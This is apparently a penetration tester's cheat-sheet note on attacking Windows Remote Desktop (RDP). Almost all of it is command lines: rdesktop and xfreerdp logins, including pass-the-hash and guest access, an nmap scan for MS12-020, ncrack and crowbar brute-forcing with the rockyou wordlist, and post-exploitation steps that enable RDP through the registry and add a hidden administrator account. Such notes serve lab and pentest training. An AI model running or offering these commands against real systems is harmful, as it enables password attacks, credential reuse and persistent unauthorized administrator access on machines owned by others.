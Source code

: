```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Pay attention to the possibility of adding a user via other vulnerability and accessing by RDP. [[Port 139 445 (Exploits)#MS17-010 method 2 RDP]]

#### rdesktop Domain User:
```bash - kali
rdesktop -u $USER -p $PASSWORD -d $NETBIOS_DOMAIN_NAME -g 85% -r disk:share=/home/kali/Desktop/ $TARGET
```

#### rdesktop
```bash - kali
rdesktop $TARGET -u foobar -p Pass123 -g 1024x768 -x 0x80
```

Connect with share:
```bash - kali
rdesktop -u $USER -p $PASSWORD -g 85% -r disk:share=/home/kali/Desktop/ $TARGET
```

![[Pasted image 20220516171239.png]]

Guest login:
```bash - kali
rdesktop -u guest -p guest $TARGET -g 94%
```

#### xfreerdp Domain User:

```bash - kali
xfreerdp /u:$USER /p:$PASSWORD /d:$NETBIOS_DOMAIN_NAME /v:$TARGET
```

```bash - kali
xfreerdp /u:$USER /pth:$HASH /d:$NETBIOS_DOMAIN_NAME /v:$TARGET
```

Connect with share:
```bash - kali
xfreerdp /u:$USER /p:$PASSWORD /v:TARGET /drive:kali,/home/kali/Desktop/
```

#### xfreerdp
```bash - kali
xfreerdp /v:$TARGET -sec-nla /u:""
```

```bash - kali
xfreerdp /u:$USER /p:$PASSWORD /cert:ignore /v:$TARGET
```

#### nmap
```bash - kali
nmap -p 3389 --script=rdp-vuln-ms12-020.nse $TARGET
```

#### ncrack
```bash - kali
ncrack -vv --user $USER -P /usr/share/wordlists/rockyou.txt rdp://$TARGET
```

#### crowbar
```bash - kali
python crowbar.py -b rdp -s $TARGET/32 -u $USER -C ../rockyou.txt -v
```

### Enabling RDP
```command prompt - kali
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

#### Add a new user to Admin, good for RDP
```command prompt - kali
net user foobar Pass123 /add
```

```command prompt - kali
net localgroup Administrators foobar /add
```

```command prompt - kali
sc config TermService start=auto
```

```command prompt - kali
net start TermService
```

```bash - kali
rdesktop -g 85% -r disk:share=/home/kali/Desktop/ -u foobar -p Pass123 $TARGET
```

See also:
[[Crowbar]]
